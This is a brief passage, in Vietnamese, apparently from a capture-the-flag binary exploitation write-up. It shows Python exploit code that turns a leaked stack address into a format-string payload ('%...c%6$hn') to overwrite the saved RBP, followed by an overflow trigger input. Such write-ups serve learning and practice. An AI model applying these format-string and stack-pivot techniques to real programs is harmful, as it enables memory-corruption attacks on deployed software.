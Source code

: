 Lưu ý, giá trị `stack_leak` mình có được ở phía trên là `0x00007fffffffdc20`. 

```python
fake_rbp = stack_leak - 0xd0 
log.info(f"fake rbp = {hex(fake_rbp)}")

payload = f"%{fake_rbp & 0xFFFF}c%6$hn"
register("hacker", 123, payload)
login("hacker", 123) 
info()
```

Stack layout sau khi mình đổi `RBP` và nhập feedback 

<img src="./8.png">

Trigger thành công với input

```python
b"a" * 72 + b"1234567\n"
```

<img src="./9.png">
